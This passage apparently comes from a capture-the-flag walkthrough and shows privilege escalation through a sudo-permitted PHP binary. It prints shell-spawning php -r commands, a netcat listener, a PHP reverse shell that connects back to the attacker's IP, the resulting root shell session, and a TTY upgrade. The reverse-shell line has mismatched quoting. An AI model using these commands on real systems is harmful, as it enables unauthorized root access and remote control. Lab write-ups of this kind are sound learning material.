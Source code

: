 ```bash
/usr/bin/php -r 'system("/bin/bash");'
/usr/bin/php -r 'system("/bin/sh");'
```

 Unfortunately this doesn't work, so lets try getting a reverse shell using PHP binary:

First: we will run a necat listener on port 4443 as follow:

```
nc -nvlp 4443
```

Next: Lets start a reverse PHP shell as follow:

```
sudo /usr/bin/php -r 'php -r '$sock=fsockopen("10.10.14.43",4443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

> listening on \[any\] 4443 ...
> 
> /connect to \[10.10.14.43\] from (UNKNOWN) \[10.129.181.169\] 38058
> 
> \# ls
> 
> /bin/sh: 1: /ls: not found
> 
> \# bash
> 
> ls
> 
> LICENSE.txt
> 
> admin
> 
> backups
> 
> data
> 
> gsconfig.php
> 
> index.php
> 
> plugins
> 
> readme.txt
> 
> robots.txt
> 
> sitemap.xml
> 
> theme

Lets try upgrading our TTY as follow:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
